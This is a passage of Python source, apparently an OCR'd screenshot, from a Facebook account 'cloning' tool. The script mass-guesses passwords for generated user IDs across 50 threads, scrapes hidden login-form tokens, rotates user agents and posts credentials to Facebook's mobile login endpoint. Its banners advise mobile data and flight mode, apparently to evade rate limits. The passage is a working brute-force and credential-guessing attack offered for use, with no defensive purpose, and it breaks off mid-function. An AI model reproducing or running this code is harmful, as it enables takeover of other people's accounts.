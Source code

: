         pww = input(f"[*] Enter Password {bilal+1} : ")
        HamiiID.append(pww)
    with ThreadPool(max_workers=50) as manshera:
        clear()
        tl = str(len(user))
        jalan('\033[1;97m====================================================')
        jalan(f'[{xr}^{x}]\x1b[38;5;208m YOUR TOTAL IDS: {xr}'+tl)
        jalan(f'{x}[{xr}^{x}]\033[0;92m PLEASE WAIT YOUR CLONING PROCESS HAS BEEN STARTED')
        jalan(f'\033[0;97m[{xr}^{x}]\033[0;93m USE YOUR MOBILE DATA ')
        jalan(f'\033[0;97m[{xr}^{x}] \x1b[38;5;208mUse Flight Mode For Speed Up')
        jalan(f'\033[0;97m[{xr}^{x}] \033[0;95mSuper Fast Speed Cloning')
        jalan('\033[1;97m====================================================')
        for love in user:
            pwx = [love[1:]]
            uid = code+love
            for Eman in HamiiID:
                pwx.append(Eman)
                pwx.append(love)
            manshera.submit(rcrack,uid,pwx,tl)
    print(f"\n{x} ══════════════════════════════════════════")
def rcrack(uid,pwx,tl):
    #print(user)
    global loop
    global cps
    global oks
    global proxy
    try:
        for ps in pwx:
            pro = random.choice(ugen)
            session = requests.Session()
            free_fb = session.get('https://mbasic.facebook.com').text
            log_data = {
                "lsd":re.search('name="lsd" value="(.*?)"', str(free_fb)).group(1),
            "jazoest":re.search('name="jazoest" value="(.*?)"', str(free_fb)).group(1),
            "m_ts":re.search('name="m_ts" value="(.*?)"', str(free_fb)).group(1),
            "li":re.search('name="li" value="(.*?)"', str(free_fb)).group(1),
            "try_number":"0",
            "unrecognized_tries":"0",
            "email":uid,
            "pass":ps,
            "login":"Log In"}
            header_freefb = {"authority": 'mbasic.facebook.com',
            "method": 'GET',
            "scheme": 'https',
            'accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9',
            'accept-language': 'en-GB,en-US;q=0.9,en;q=0.8',
            'cache-control': 'max-age=0',
            # 'cookie': 'datr=zwaiY8oIpRJmusfwcUYR3gcl; sb=zwaiY5XKI6dYvdiAT8MfIAzF; wd=979x1831; dpr=2.34375; fr=0FGFgDcD2x3MSPEbJ..BjogbP.Fh.AAA.0.0.Bjt7jq.AWXveghp-AI',
            'sec-ch-ua': '"Chromium";v="107", "Not=A?Brand";v="24"',
            'sec-ch-ua-mobile': '?1',
            'sec-ch-ua-platform': '"Android"',
            'sec-fetch-dest': 'document',
            'sec-fetch-mode': 'navigate',
            'sec-fetch-site': 'none',
            'sec-fetch-user': '?1',
            'upgrade-insecure-requests': '1',
            'user-agent': pro}
            lo = session.post('https://mbasic.facebook.com/login/device-based/login/async/?refsrc=deprecated&lwv=100',data=log_data,headers=header_freefb).text